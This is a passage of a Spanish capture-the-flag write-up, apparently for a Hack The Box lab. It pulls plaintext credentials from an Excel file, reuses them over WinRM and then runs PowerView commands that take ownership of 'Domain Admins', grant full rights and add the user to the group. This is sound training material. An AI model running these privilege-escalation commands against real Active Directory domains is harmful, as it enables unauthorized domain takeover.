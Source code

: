 
~~~powershell
ls


    Directory: C:\tmp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/21/2022   8:03 AM             96 cmd.ps1
-a----       10/26/2021   8:13 AM           6144 Engines.xls
-a----        6/21/2022   8:02 AM            830 out
-a----        6/21/2022   7:59 AM            830 out2

~~~


Descargamos el archivo a nuestra VM. Luego convertimos el archivo a csv

~~~bash
ssconvert Engines.xls engine.csv
~~~

Y vemos su contenido

~~~bash
cat engine.csv                           
"Machines Information",,,,,
Name,Quantity,"Date Acquired",Owner,"Chamber Username","Chamber Password"
"Internal Combustion Engine",12,2021/10/02,HTB,maria,d34gb8@
"Stirling Engine",23,2021/11/05,HTB,maria,0de_434_d545
"Diesel Engine",4,2021/02/03,HTB,maria,W3llcr4ft3d_4cls
~~~

Intentamos acceder al sistema mediante WinRM como el usuario maria utilizando las contraseñas indicadas en el CSV

## Administrador

BloodHound nuevamente nos sugiere instalar el modulo PowerView para luego modificar  el grupo de administradores y hacer que maria sea parte de este grupo

Definimos a maria como el dueño del grupo Domain Admins

~~~powershell
Set-DomainObjectOwner -Identity 'Domain Admins' -OwnerIdentity 'maria'
~~~

Asiganmos todos los derechos del grupo a maria

~~~powershell
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity maria -Rights All
~~~

Agregamos a maria al grupo Domain Admins

~~~powershell
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'maria'
~~~
